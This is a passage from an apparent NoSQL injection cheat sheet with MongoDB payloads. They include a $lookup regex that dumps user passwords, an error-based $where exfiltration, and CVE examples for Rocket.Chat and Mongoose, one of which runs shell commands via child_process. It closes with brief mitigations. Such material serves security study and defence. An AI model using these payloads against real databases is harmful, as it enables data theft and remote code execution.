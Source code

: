 ```
    "$lookup": {
      "from": "users",
      "as": "resultado",
      "pipeline": [
        {
          "$match": {
            "password": {
              "$regex": "^.*"
            }
          }
        }
      ]
    }
  }
]
```
```
### Error-Based Injection

Inject `throw new Error(JSON.stringify(this))` in a `$where` clause to exfiltrate full documents via server-side JavaScript errors (requires application to leak database errors). Example:

```json
{ "$where": "this.username='bob' && this.password=='pwd'; throw new Error(JSON.stringify(this));" }
```
```
## Recent CVEs & Real-World Exploits (2023-2025)

### Rocket.Chat unauthenticated blind NoSQLi – CVE-2023-28359
Versions ≤ 6.0.0 exposed the Meteor method `listEmojiCustom` that forwarded a user-controlled **selector** object directly to `find()`. By injecting operators such as `{"$where":"sleep(2000)||true"}` an unauthenticated attacker could build a timing oracle and exfiltrate documents. The bug was patched in 6.0.1 by validating selector shape and stripping dangerous operators. 

### Mongoose `populate().match` `$where` RCE – CVE-2024-53900 & CVE-2025-23061
When `populate()` is used with the `match` option, Mongoose (≤ 8.8.2) copied the object verbatim *before* sending it to MongoDB. Supplying `$where` therefore executed JavaScript **inside Node.js** even if server-side JS was disabled on MongoDB:

```js
// GET /posts?author[$where]=global.process.mainModule.require('child_process').execSync('id')
Post.find()
    .populate({ path: 'author', match: req.query.author });   // RCE
```
```
The first patch (8.8.3) blocked top-level `$where`, but nesting it under `$or` bypassed the filter, leading to CVE-2025-23061. The issue was fully fixed in 8.9.5, and a new connection option `sanitizeFilter: true` was introduced.

### GraphQL → Mongo filter confusion
Resolvers that forward `args.filter` directly into `collection.find()` remain vulnerable:

```graphql
query users($f:UserFilter){
  users(filter:$f){ _id email }
}

# variables
{ "f": { "$ne": {} } }
```
```
Mitigations: recursively strip keys that start with `$`, map allowed operators explicitly, or validate with schema libraries (Joi, Zod).

## Defensive Cheat-Sheet (updated 2025)
```